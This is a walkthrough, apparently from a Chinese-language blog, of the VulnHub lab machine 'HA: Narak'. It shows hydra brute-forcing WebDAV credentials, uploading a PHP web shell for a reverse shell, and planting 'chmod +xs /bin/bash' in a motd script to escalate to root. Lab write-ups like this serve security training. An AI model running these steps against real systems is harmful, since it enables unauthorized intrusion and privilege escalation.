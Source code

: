 # HA：Narak

2024-6-11 https://www.vulnhub.com/entry/ha-narak,569/

difficulty: medium

## IP

192.168.5.34

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 71bd592d221eb36b4f06bf83e1cc9243 (RSA)
|   256 f8ec45847f2933b28dfc7d07289331b0 (ECDSA)
|_  256 d09436960480331040683221cbae68f9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HA: NARAK
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

```
gobuster -t 32 dir -u http://192.168.5.34/ -k -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html,zip -e

http://192.168.5.34/tips.txt             (Status: 200) [Size: 58]
http://192.168.5.34/index.html           (Status: 200) [Size: 2998]
http://192.168.5.34/images               (Status: 301) [Size: 313] [--> http://192.168.5.34/images/]
http://192.168.5.34/webdav               (Status: 401) [Size: 459]
```

http://192.168.5.34/tips.txt : Hint to open the door of narak can be found in creds.txt.

creds.txt 在根目录中没有，http://192.168.5.34/images/666.jpg 有个跟其他图片不一样的，下载后，看看是否有图片隐写，没发现有隐写。

http://192.168.5.34/webdav 需要 hettp basic 认证，但是目前没有用户名和密码，尝试用 cewl 收集用户名和密码，然后爆破看看能不能行：

```
cewl -d 5 'http://192.168.5.34' -w pass.txt

hydra -t 20 -L pass.txt -P pass.txt 192.168.5.34 http-get /webdav/

[80][http-get] host: 192.168.5.34   login: yamdoot   password: Swarg
```

发现用户凭据 yamdoot:Swarg, 登陆后发现是一个空目录。

使用 cadaver 上传 webshell:

```
cadaver http://192.168.5.34/webdav/
dav:/webdav/> put 5.3/8888.php
Uploading 5.3/8888.php to `/webdav/8888.php':
Progress: [=============================>] 100.0% of 5495 bytes succeeded.
```

这时已经能看到上传的 8888webshell，在 kali 上监听 8888 端口，然后触发这个 php web shell 反弹。

进行系统枚举，home 目录下发现 3 个用户：

```
www-data@ubuntu:/home$ ls
inferno  narak	yamdoot
```

在 /home/inferno 下 发现 user flag:

```
www-data@ubuntu:/home/inferno$ cat user.txt
Flag: {5f95bf06ce19af69bfa5e53f797ce6e2}
```

其他的 sudo、suid、getcap、crontab 中都没有发现提示。根据最开始的 tips.txt 有一个 creds.txt 文件，看看能不能搜索到：

```
www-data@ubuntu:/var/spool/cron$ find / -name 'creds*' 2>/dev/null
/mnt/karma/creds.txt
```

查看 /mnt/karma/creds.txt:

```
eWFtZG9vdDpTd2FyZw==
```

进行 base64 解码，得到 yamdoot:Swarg 跟前面爆破出来的一样。

进行后续枚举，发现了 /etc/update-motd.d 这个目录里面的文件具有修改权限：

```
echo "chmod +xs /bin/bash" >> /etc/update-motd.d/00-header
```

现在需要找到一个能够登陆 ssh 的用户，来触发这个 motd.

linpeas 发现 /mnt/hell.sh 内容：

```
www-data@ubuntu:/tmp$ cat /mnt/hell.sh
#!/bin/bash

echo"Highway to Hell";
--[----->+<]>---.+++++.+.+++++++++++.--.+++[->+++<]>++.++++++.--[--->+<]>--.-----.++++.
```

进行 brainfuck 解码: chitragupt 应该是某个用户的密码。经过测试，发现是 inferno 的密码，尝试 ssh 登陆，就能触发 motd，这时/bin/bash 已经是 suid 权限：

```
www-data@ubuntu:/etc/update-motd.d$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1113504 Apr  4  2018 /bin/bash
www-data@ubuntu:/etc/update-motd.d$ /bin/bash -p
bash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-4.4# cd /root
bash-4.4# ls
root.txt
bash-4.4# cat root.txt
██████████████████████████████████████████████████████████████████████████████████████████
█░░░░░░██████████░░░░░░█░░░░░░░░░░░░░░█░░░░░░░░░░░░░░░░███░░░░░░░░░░░░░░█░░░░░░██░░░░░░░░█
█░░▄▀░░░░░░░░░░██░░▄▀░░█░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀▄▀▄▀▄▀▄▀▄▀░░███░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀░░██░░▄▀▄▀░░█
█░░▄▀▄▀▄▀▄▀▄▀░░██░░▄▀░░█░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░░░▄▀░░███░░▄▀░░░░░░▄▀░░█░░▄▀░░██░░▄▀░░░░█
█░░▄▀░░░░░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░████░░▄▀░░███░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░███
█░░▄▀░░██░░▄▀░░██░░▄▀░░█░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░░░▄▀░░███░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░▄▀░░███
█░░▄▀░░██░░▄▀░░██░░▄▀░░█░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀▄▀▄▀▄▀▄▀▄▀░░███░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀▄▀▄▀▄▀▄▀░░███
█░░▄▀░░██░░▄▀░░██░░▄▀░░█░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░▄▀░░░░███░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░▄▀░░███
█░░▄▀░░██░░▄▀░░░░░░▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░█████░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░███
█░░▄▀░░██░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░░░░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░░░█
█░░▄▀░░██░░░░░░░░░░▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀▄▀▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀▄▀░░█
█░░░░░░██████████░░░░░░█░░░░░░██░░░░░░█░░░░░░██░░░░░░░░░░█░░░░░░██░░░░░░█░░░░░░██░░░░░░░░█
██████████████████████████████████████████████████████████████████████████████████████████


Root Flag: {9440aee508b6215995219c58c8ba4b45}

!! Congrats you have finished this task !!

Contact us here:

Hacking Articles : https://twitter.com/hackinarticles

Jeenali Kothari  : https://www.linkedin.com/in/jeenali-kothari/

+-+-+-+-+-+ +-+-+-+-+-+-+-+
 |E|n|j|o|y| |H|A|C|K|I|N|G|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+
__________________________________
```
